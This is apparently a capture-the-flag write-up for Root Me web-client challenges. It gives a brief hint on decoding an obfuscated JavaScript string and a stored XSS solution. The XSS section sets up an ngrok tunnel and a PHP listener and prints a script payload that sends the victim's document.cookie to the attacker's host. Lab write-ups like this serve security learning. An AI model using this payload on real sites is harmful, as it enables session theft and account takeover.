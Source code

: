 ```yaml
---
title: Root Me | Web Client Medium
author: Zeropio
date: 2022-04-11
categories: [Challenges, RootMe]
tags: [rootme, webclient, medium]
permalink: /challenges/rootme/web-client/medium
---
```


# Javascript - Obfuscation 3

Decode the string from hex and from decimal.

# XSS - Stored 1

In the machine:
```console
$ ngrok http 80
$ php -S localhost:80
```

In the web, the following payload:
```html
<script>document.write('<img src="https://{ngrok-ip}/?cookie='+document.cookie+'" />')</script>
```
